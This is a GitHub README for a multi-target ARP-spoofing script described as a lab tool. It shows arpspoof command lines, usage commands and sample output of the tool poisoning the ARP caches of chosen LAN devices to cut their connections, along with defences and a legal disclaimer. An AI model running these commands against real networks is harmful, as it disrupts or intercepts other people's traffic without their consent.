




# 🕸️ multi-arpspoof

> Multi-target ARP spoofing tool for controlled lab environments — scan, select, spoof, and cleanly restore. All in one script.


---

## Screenshots

| | |
|---|---|
|  |  |
|  |  |

---

## The Problem It Solves

The standard ARP spoofing workflow looks like this:

```bash
# Terminal 1
sudo arpspoof -i wlan0 -t <target-ip> <gateway-ip>

# Terminal 2
sudo arpspoof -i wlan0 -t <gateway-ip> <target-ip>
```

That's two terminals, two commands, for **one device**. If you're testing multiple targets in a lab, you're juggling a terminal pair per device.

`multi-arpspoof` collapses all of that into a single interactive script — scan the network, pick your targets, launch.

---

## Features

- **Deep two-pass LAN scan** using `arp-scan` with offline MAC vendor lookup
- **Clean device table** — S/N, IP, MAC address, vendor
- **Multi-target selection** — enter one or several serial numbers, comma-separated
- **Bidirectional ARP poisoning** — both directions handled per target automatically
- **Each target runs in its own process group** — reliable independent spoofing
- **IP forwarding forced OFF at launch** — traffic is dropped, never relayed
- **Ctrl+C teardown** — kills all processes, sends gratuitous ARPs to restore caches
- **Gateway auto-detection** — reads from `ip route`, no manual config needed
- **Rescan option** — enter `0` at any point to re-scan the LAN

---

## Requirements

```bash
sudo apt install arp-scan dsniff net-tools
```

---

## Usage

```bash
# Clone
git clone https://github.com/1024Cyber/multi-arpspoof.git
cd multi-arpspoof

# Run (root required)
sudo python3 multi-arpspoof.py

# OPTIONALLY : Specify interface or gateway manually
sudo python3 multi-arpspoof.py -i eth0
sudo python3 multi-arpspoof.py -i wlan0 -g 192.168.1.1
```

---

## Walkthrough

**1. Scan**
```
[*] Scanning wlan0 (deep scan — 2 passes)...
  [*] Pass 1 — fast sweep...
  [*] Pass 2 — slow sweep...
[*] Found 6 device(s)

  S/N    IP                MAC Address          Vendor
  ─────  ────────────────  ───────────────────  ──────────────────────────────
  1      192.168.1.1       aa:bb:cc:dd:ee:ff    Netgear  [GW]
  2      192.168.1.105     11:22:33:44:55:66    Apple
  3      192.168.1.112     aa:11:bb:22:cc:33    Samsung
  ...

  [0] Rescan
```

**2. Select targets**
```
  Enter S/N(s) to spoof (comma-separated), or 0 to rescan: 2,3
```

**3. Spoof starts**
```
[+] Launching spoof for 2 target(s)...

  [+] Spoofing 192.168.1.105 ↔ 192.168.1.1  (PIDs 4821, 4822)
  [+] Spoofing 192.168.1.112 ↔ 192.168.1.1  (PIDs 4823, 4824)

[+] Active on 2 target(s). Press Ctrl+C to stop.

  [~] 00:30 elapsed | 4/4 processes alive
```

**4. Ctrl+C**
```
[*] Stopping all spoof processes...
[*] Restoring ARP tables — please wait...
  [~] Restoring 192.168.1.105
  [~] Restoring 192.168.1.112
[+] IP forwarding confirmed OFF
[+] Cleanup complete.
```

---

## How ARP Spoofing Works

ARP (Address Resolution Protocol) maps IP addresses to MAC addresses on a local network. It has no authentication — any device can send a crafted ARP reply claiming to be any IP.

This tool sends ARP replies to the target claiming your MAC is the gateway, and to the gateway claiming your MAC is the target. Both devices update their ARP cache, and all traffic between them flows through your machine.

```
Normal:   Target ──────────────────► Gateway ──► Internet
Spoofed:  Target ──► Your Machine ──► Gateway ──► Internet
```

Because IP forwarding is kept OFF, traffic arriving at your machine is dropped — effectively cutting the target's connection.

---

## Defending Against ARP Spoofing

```bash
# Set a static ARP entry for your gateway — immune to poison packets
sudo arp -s <gateway-ip> <real-gateway-mac>

# Monitor for MAC changes in real time
sudo apt install arpwatch
sudo arpwatch -i wlan0
```

Network-level: enable **Dynamic ARP Inspection (DAI)** on managed switches to stop ARP spoofing at the infrastructure level.

---

## Disclaimer

> This tool is intended strictly for use in **controlled lab environments** on networks and devices you own or have explicit written permission to test. Unauthorised use against networks or devices you do not own is illegal under the Computer Misuse Act, CFAA, and equivalent laws worldwide. The author accepts no responsibility for misuse.

---

## License

MIT
